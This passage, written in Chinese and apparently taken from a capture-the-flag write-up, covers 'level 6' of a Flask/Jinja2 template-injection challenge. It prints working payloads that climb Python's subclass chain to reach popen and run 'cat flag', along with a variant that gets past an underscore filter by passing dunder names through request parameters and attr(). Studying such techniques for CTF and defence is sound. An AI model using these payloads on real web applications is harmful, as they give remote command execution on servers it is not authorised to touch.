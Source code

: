 [![在这里插入图片描述](assets/1698900310-83105e28ce97e8d25e69fc3f3356423e.png)](https://storage.tttang.com/media/attachment/2022/08/14/913853b9-70ba-464d-92e6-402fb8321955.png)  
当然，也可以利用`request.cookie.a`这种，两者实质是相同的，不再演示

### [level 6](#toc_level-6)

[![在这里插入图片描述](assets/1698900310-ffa487ebcae10a3fb85352abb4c249d2.png)](https://storage.tttang.com/media/attachment/2022/08/14/fc18471c-8921-4edc-b6d2-a6c009bf1ca9.png)  
题目描述，过滤了下划线  
依旧可以同上关一样，借助 request 实现，我们这里换一个语句

```plain
{{().__class__.__base__.__subclasses__()[133].__init__.__globals__['popen']('cat flag').read()}}
```

构造出来的 payload

```plain
GET:cla=__class__&bas=__base__&sub=__subclasses__&ini=__init__&glo=__globals__&gei=__getitem__
POST:code={{()|attr(request.args.cla)|attr(request.args.bas)|attr(request.args.sub)()|attr(request.args.gei)(133)|attr(request.args.ini)|attr(request.args.glo)|attr(request.args.gei)('popen')('cat flag')|attr('read')()}}
```
